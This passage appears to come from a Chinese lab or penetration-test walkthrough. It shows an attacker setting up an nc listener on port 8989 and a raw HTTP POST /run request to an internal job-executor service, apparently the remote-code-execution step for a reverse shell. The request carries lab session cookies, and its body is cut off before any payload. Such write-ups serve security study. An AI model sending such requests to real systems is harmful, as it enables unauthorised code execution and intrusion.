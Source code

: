 ![Untitled](image/Untitled%205.png)

攻击机查看IP，并通过nc工具监听8989端口

![Untitled](image/Untitled%206.png)

抓包，执行该脚本文件

```
POST /run HTTP/1.1
Host: 192.168.81.173:9999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_COOKIE_NAME_PREFIX=jms_; X-JMS-ORG=00000000-0000-0000-0000-000000000002; jms_public_key="LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlHZk1BMEdDU3FHU0liM0RRRUJBUVVBQTRHTkFEQ0JpUUtCZ1FDOFI1eU1GM1NTZGhySVdONm42UHNRV3ZYcgpjTXZKMXNaam55aVNTTjlvaGlqTHFXUHFZMkI4dzNYdkM0RTRTdnl2eTkxT0xyWVVrVG52ckhTK2c2aUhLQ1RZClRucXR5T0lSN3BpaGlZSTFObmxYY25KWVpMcjhXTXowYVlrdVViSHJVNFBhQWQ4aFlzRmJvbGwzMlVBeGROSSsKblk5cU1LWnluUGFYT3M2aDFRSURBUUFCCi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQ=="; jms_session_expire=close; jms_csrftoken=qMzSigM9M0moTYJM51O87LcR1ufq0uyZ; jms_sessionid=ax938kdr2yc855mefi7sz53t18ibnefj; activeTab=Detail
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
```
